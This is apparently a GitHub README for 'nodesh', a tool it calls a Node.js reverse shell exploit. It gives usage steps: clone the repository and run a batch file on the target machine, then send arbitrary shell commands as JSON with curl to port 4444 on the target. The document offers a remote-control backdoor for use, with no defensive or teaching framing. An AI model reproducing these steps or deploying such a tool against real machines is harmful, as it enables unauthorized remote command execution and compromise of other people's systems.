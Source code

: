 # nodesh

Nodejs reverse shell exploit.

## Use

Target:

```bash
git clone https://github.com/miguelzacca/nodesh.git
./nodesh/nodesh.bat
```

## Controller (curl or others, ex: Postman):

curl:

```bash
curl <target_ip>:4444/run --json '{"cmd":"<your_command>"}'
```